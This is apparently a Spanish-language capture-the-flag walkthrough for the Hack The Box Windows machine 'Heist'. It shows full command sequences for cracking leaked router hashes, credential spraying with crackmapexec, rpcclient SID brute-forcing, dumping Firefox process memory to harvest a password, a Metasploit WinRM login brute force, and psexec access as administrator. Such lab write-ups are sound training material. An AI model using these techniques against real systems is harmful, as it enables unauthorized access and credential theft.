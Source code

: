 ## HTB-Heist
- Maquina: **Windows**
- Level: **Easy**
- IP: **10.10.10.149**

## Herramientas a utilizar:
- nmap
- jhon = John the Ripper
-   https://packetlife.net/toolbox/type7/
-   https://github.com/Hackplayers/evil-winrm
-   https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
- crackmapexec
- smbmap
- sysinternals
- metaexploit
- psexec.p

```
nmap -sC -sV -o scan_heist.txt 10.10.10.149
```
Encontraremos los siguiente puertos abierto.

|PORT|STATE|SERVICE|VERSION|
|---|---|---|---|
|80/tcp|open| http|Microsoft IIS httpd 10.0
|135/tcp|open|msrpc| Microsoft Windows RPC
|445/tcp|open|microsoft-ds?|

Primero iniciaremos a enumerar por el puerto 80
```
http://10.10.10.149/
```
Aqui tenemos un login, pero si nos fijamos bien, tenemos un acceso de invitado, podemos llegar a
```
http://10.10.10.149/attachments/config.txt
```
Este archivo contiene la configuracion de un router en el cual veremos varios users y password.

|1| secret 5 |$1$pdQG$o8nrSzsGXeaduXrjlvKc91
|----|----|----|
|2| username rout3r password 7 |0242114B0E143F015F5D1E161713 
|3| username admin privilege 15 password 7 |02375012182C1A1D751618034F36415408

Con el primero intentaremos Crakear el password creamos un archivo `hashespass.txt` y en el colocamos: `enable_secret:$1$pdQG$o8nrSzsGXeaduXrjlvKc91` Ahora utilizamos **John the Ripper** y el Direccionario **rockyou.txt**
```
john --wordlist=/usr/share/wordlists/rockyou.txt hashespass.txt
```
Nuestro resultado sera: **stealth1agent**    (enable_secret)

Con los demas iremos al siguiente Web: https://packetlife.net/toolbox/type7/
El resultado sera:

|user| password|
|---|---|
|rout3r| $uperP@ssword
|admin |Q4)sJu\Y8qz*A3?d

Colocamos todos los usuario en **user.txt** y los password en **pass.txt**

Utilizaremos `crackmapexec` con los archivos **user.txt** y **pass.txt**
```
crackmapexec smb 10.10.10.149 -u user.txt -p pass.txt
```

De los resultado de crackmapexec tenemos que:
SUPPORTDESK [+] **SupportDesk\hazard:stealth1agent**


Ahora utilizaremos **smbmap** para ver que tipo de privilegios tenemos con **hazard**
```
smbmap -H 10.10.10.149 -u hazard -p stealth1agent
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.149...
[+] IP: 10.10.10.149:445	Name: heist.htb
	Disk                                      	Permissions
	----                                      	-----------
	ADMIN$                                    	NO ACCESS
	C$                                        	NO ACCESS
	IPC$                                      	READ ONLY
```

Notamos que solo tenemos acceso **read only** remote **IPC$**
```
rpcclient -U 'hazard%stealth1agent' 10.10.10.149
rpcclient $> lookupnames hazard
```
Nuestro output sera: 
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
```
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008
```
Ahora tenemos el siguiente output
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)

Con el SID podemos intentaremos listar los usuarios.
```
rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c 'lookupsids S-1-5-21-4254423774-1266059056-3197185112-1000'
```
Si todo va bien tenemos una output: S-1-5-21-4254423774-1266059056-3197185112-1000 *unknown*\*unknown* (8)

Por lo que ahora haremos una funcion para ver todo los posible SID y removiendo los unknown.
```
for i in {1000..1050}; do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown; done
```

Con esto veremos 2 usuarios **Chase** y **Jason** los agregaremos a `user.txt`
Utilizaremos `crackmapexec` otra vez con los archivos **user.txt** y **pass.txt**
```
crackmapexec smb 10.10.10.149 -u user.txt -p pass.txt
```
Y veremos que el usuario **Chase:`Q4)sJu\Y8qz*A3?d`**

Utilizaremos **Evil-WinRM**, pero en mi caso particular lo utilice de la siguiente manera
con `gem install winrm winrm-fs colorize stringio`
```
ruby evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\chase -p 'Q4)sJu\Y8qz*A3?d'
```

Ahora tenemos acceso a heist con el usuario **chase**
Enumeracion y encontramos que en 
```
C:\inetpub\wwwroot> 
```
Existe dos archivos `error.php` y `login.php` 
```
En login.php vemos:
hash: 91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040
user: admin@support.htb
```
Colocamos el hash en `hash_admin.txt` y utilizamos John otra vez
```
john --format=Raw-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt hash_admin.txt
```
y Esto no funciono 🤷‍♂️

Aqui solo puedo decir que despues de Mucho buscar en internet he intentar y intentar

Volvi Heist con la session de Chase y me puse a buscar en los procesos

C:\Program Files> 
Ejecutamos **Get-Process**

Vi que Firefox se estaba ejecutando.

|408|31|17404|63308|2.17|2768|1| firefox|
|--|--|--|--|--|--|--|--|
|390 | 32|    43244|      75072|      57.30|   **4728**|   1| firefox
|358 |     27|    16364|      37608|       0.58|   6808|   1| firefox
|1151|      70|   132720|     204480|      28.55|   6924|   1| firefox
|343 |     20|     9976|      37300|       0.33|   7052|   1| firefox
    
Por lo que descargue `systeminternal` desde https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
```
unzip sysinternals-suite
```
Volvemos acceder a heist con el usuario chase y subimos el `procdump64.exe`
```
upload procdump64.exe
.\procdump64.exe -accepteula
.\procdump64.exe -ma 4728 <4728 es el id_proc firefox que encontramos>.
```
Esto genera un archivo **firefox.exe_`fechayhora`.dmp** el cual deberemos descargar.
En nuestro caso fue:
```
download firefox.exe_2102209_003234.dmp
```
Mientras se esta descargado con otra shell vamos hacer la siguiente busqueda.
```
strings firefox.exe_210209_003234.dmp |grep admin@support.htb
```

y con esto veremos password del admin@support.htb el es XXXXXXXXX
actualizamos los archivo user: con admin@support.htb y el pass con XXXXXXXXX
volvemos a probar con crackmapexec
```
crackmapexec smb 10.10.10.149 -u user -p pass
```

Si por alguna razon no tienes el resultado utilizando el proceso de Firefox, puede utilizar el siguiente mentodo.
```
msfconsole
use auxiliary/scanner/winrm/winrm_login
set pass_file /home/r0ok1e/Downloads/htb/machine/heist/pass.txt
set user_file /home/r0ok1e/Downloads/htb/machine/heist/user.txt
set rhost 10.10.10.149
run
```
Y aqui veremos que funciona user/pass chase y el del administrator

Para poder acceder con esta nuevas credenciales utilizaremos `PSEXEC`.
```
locate psexec.p
python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.149
```

Listo, solo es ir a Desktop del administrator y tenemos root.txt y nuestra flag

